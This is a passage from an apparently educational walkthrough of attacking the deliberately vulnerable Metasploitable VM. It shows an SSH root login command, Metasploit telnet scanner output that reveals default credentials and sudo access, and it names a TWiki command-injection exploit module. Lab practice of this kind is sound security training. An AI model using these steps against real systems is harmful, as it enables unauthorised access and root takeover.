 ``` plain
ssh -l root -p 22 -i 57c3115d77c56390332dc5c49978627a-5429 192.168.127.154
```

### Port 23 telnet

For this one I used an auxiliary module:

``` plain
msf > use auxiliary/scanner/telnet/telnet_version
msf auxiliary(telnet_version) > show options

Module options (auxiliary/scanner/telnet/telnet_version):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target address range or CIDR identifier
   RPORT     23               yes       The target port
   THREADS   1                yes       The number of concurrent threads
   TIMEOUT   30               yes       Timeout for the Telnet probe
   USERNAME                   no        The username to authenticate as

msf auxiliary(telnet_version) > set RHOSTS 192.168.127.154
RHOSTS => 192.168.127.154
msf auxiliary(telnet_version) > run

[*] 192.168.127.154:23 TELNET _                  _       _ _        _     _      ____  \x0a _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ \x0a| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |\x0a| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ \x0a|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|\x0a                            |_|                                          \x0a\x0a\x0aWarning: Never expose this VM to an untrusted network!\x0a\x0aContact: msfdev[at]metasploit.com\x0a\x0aLogin with msfadmin/msfadmin to get started\x0a\x0a\x0ametasploitable login:
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

So now we know the credentials for the msfadmin account, and if you log in and play around you will find out that this accound has sudo privilege, so it's possible to run commands as root.


### Port 80 apache

Navigating to the root of the web server, we can see some vulnerable web applications, along with the msfadmin account details which we got earlier with telnet. I won't go over the web applications here, because I am focusing on host based exploitation in this post. However, I found out that I could use Metasploit against one of them to get a shell, so I will detail that here.

The Nessus scan revealed that the TWiki web application is vulnerable to remote code execution. I found the following suitable exploit:

**TWiki History TWikiUsers rev Parameter Command Execution**

> This module exploits a vulnerability in the history component of TWiki. By passing a 'rev' parameter containing shell metacharacters to the 
> TWikiUsers script, an attacker can execute arbitrary OS commands.
